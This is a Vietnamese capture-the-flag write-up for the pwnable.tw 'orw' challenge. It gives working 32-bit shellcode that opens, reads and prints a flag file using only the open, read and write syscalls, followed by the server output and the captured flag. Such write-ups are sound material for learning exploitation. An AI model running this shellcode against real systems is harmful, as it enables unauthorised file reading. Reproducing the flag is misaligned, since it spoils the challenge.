

# *Challenge: orw*
***
## Pseudo Code:


- Đây là 1 bài khá đặc biệt khi ta phải thực thi shellcode mà chỉ đc thực hiện duy nhất 3 syscall open, read, write.

## Exploit:

- Hướng khai thác: Ta sẽ viết shellcode để thực hiện 3 thao tác chính sau:
+Dùng syscall open để mở flag từ /home/orw/flag
+Dùng syscall read để đọc flag
+Dùng syscall write để ghi flag

- Do chương trình chạy kiến trúc i386 32bits nên ta sẽ viết shellcode 32 phù hợp

- Ta có shellcode:
```
sc = asm('''
    push 26465          ; đây là /home/orw/flag
    push 1818636151     ; đẩy từng 4byte vào stack
    push 1919889253
    push 1836017711
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    mov eax, 0x05
    int 0x80            ; Thực hiện syscall open

    mov ebx, eax
    mov ecx, esp
    mov edx, 0x100
    mov eax, 0x03
    int 0x80            ; Thực hiện syscall read

    mov ebx, 0x01
    mov eax, 0x04
    int 0x80            ; Thực hiện syscall write

    ''', arch = 'i386')
```

- Ta gửi thử shellcode lên server:
```sh
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
\xf7\x00Pp\xf7\x00\x00\x00\x007\xd6V\xf7\x01\x00\x00\x00\x94|\xa6\xff\x9c|\xa6\xff\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Pp\xf7\x04|s\xf7\x00ps\xf7\x00\x00\x00\x00\x00Pp\xf7\x00Pp\xf7\x00\x00\x00\x00\xd33\xd9f\xc2݊\x87\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00Ѓ\x04\x08\x00\x00\x00\x00\xe0~r\xf7p'r\xf7\x00ps\xf7\x01\x00\x00\x00Ѓ\x04\x08\x00\x00\x00\x00\xf1\x83\x04\x08H\x85\x04\x08\x01\x00\x00\x00\x94|\xa6\xff\xa0\x85\x04\x08\x00\x86\x04\x08p'r\xf7\x8c|\xa6\xff\x18ys\xf7\x01\x00\x00\x00?\x8f\xa6\xff\x00\x00\x00\x00M\x8f\xa6\xffc\x8f\xa6\xff|\x8f\xa6\xff\xbe\x8f\xa6\xffď\xa6\xff̏\xa6\xff׏\xa6\xff\x00\x00\x00\x00 \x00\x00\x00\xb0\x1dq\xf7!\x00\x00\x00\x00\x10q\xf7$         [*] Got EOF while reading in interactive
$ 
```

-> Đã lấy được flag

```
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
```
